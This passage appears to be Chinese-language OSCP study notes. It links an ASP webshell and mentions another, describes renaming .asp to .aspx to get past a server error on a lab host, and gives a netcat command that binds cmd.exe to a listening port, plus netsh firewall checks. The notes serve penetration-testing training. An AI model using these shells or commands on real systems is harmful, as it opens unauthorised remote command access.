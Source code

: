 - 一个 ASP 的木马，用于执行系统命令：[aspcmd.asp](https://github.com/Jewel591/OSCP/blob/master/ASP-reverse-shell/aspcmd.asp)(或asp.cmd.aspx)

> 遇到的一个坑：`.asp` 无法运行，系统会报 500 错误，修改为`.aspx` 后绕过限制(~OSCP 10.11.1.13)

- 超强 webshell 大马-bigshell.aspx

# Windows 利用 nc 反弹 shell
```
nc -lvp 8888 -e c:\windows\system32\cmd.exe 
```
查看防火墙状态：
```
netsh firewall show state
```
```
netsh advfirewall firewall show rule name=all dir=in type=dynamic
```
